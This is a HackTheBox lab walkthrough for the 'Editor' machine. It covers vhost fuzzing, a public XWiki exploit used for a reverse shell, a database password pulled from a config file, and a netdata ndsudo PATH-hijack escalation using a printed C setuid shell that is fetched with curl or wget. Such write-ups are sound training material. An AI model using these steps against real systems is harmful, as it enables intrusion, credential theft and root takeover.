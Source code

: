 # Editor - HackTheBox Machine

Difficulty: Easy

---

## Enumeration

Run masscan and nmap to discover the following open ports 22,80,8080.

80 is running a website editor.htb so let's add it to hosts. Checking around on this website there was nothing of value so I went straight to vhost fuzzing.

Command:
```bash
ffuf -u "http://editor.htb" -H "Host: FUZZ.editor.htb" -w /usr/share/wordlists/dirb/common.txt -fl 8
```
This returns a subdomain called `wiki.editor.htb`. Add this to hosts.

After this it was time to check around for CVEs. The version this was running was `XWiki Debian 15.10.8`. So googling around for CVEs we found this: `https://github.com/Infinit3i/CVE-2025-24893`.

---

## Initial Access

Use this exploit after setting the appropriate parameters to gain a shell. Since my friend was having some problems with this exploit (we were doing this together) I'll explain how to use this.

1. Start a netcat listener on port 31337
2. Now, in the PoC we have to change a few settings. Change the target host to `wiki.editor.htb`, and change the local host to your HTB vpn IP.
3. Now in a separate shell, navigate to the PoC directory and start a python server on port 8080.
4. Run the `Reverse Shell` option on the PoC now and if you did it right, you should see a shell on the computer. Repeat this a couple times tho, since it could fail.

Ok, now that that's done, it's time to get user. Read /etc/passwd to find that the home user is oliver.

Now we can try and hunt config files or mysql or whatever to get any data on oliver. I used `linpeas.sh` to no avail. So I just checked config files. There I found the password to oliver.

```bash
cat /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml | grep password
```

This gives the password `theEd1t0rTeam99`. Use this to ssh in as oliver.

---

## Privilege Escalation

Now oliver cannot run `sudo -l`. So we need to look further.

On enumerating with `netstat -nltp`, I found port 19999 running a service. So using the command:
```bash
ssh -L 19999:127.0.0.1:19999 oliver@editor.htb
```

I forwarded the port to my local machine, which showed that it was running a service called netdata. Opening this site revealed a red alert on the top of the screen, which on clicking reveals the version to be `v1.45.2`.

There is a privilege escalation exploit for this detailed [here](https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93).

So here's what you do:
1. Create a binary like this:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
        setuid(0);
        setgid(0);
        system("/bin/sh");
        return 0;
}
```
2. Compile it using `gcc exploit.c -o exploit`.
3. Host this on your python server.
4. Then download it onto your target machine (use curl or wget).
5. As detailed in the link, first we will rename this file to nvme and then give it executable permissions. (I stored this file in /tmp/exploit)
6. Now do

```bash
export PATH=/tmp/exploit:$PATH
```

7. `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list`

This should log you in as root.

--- 
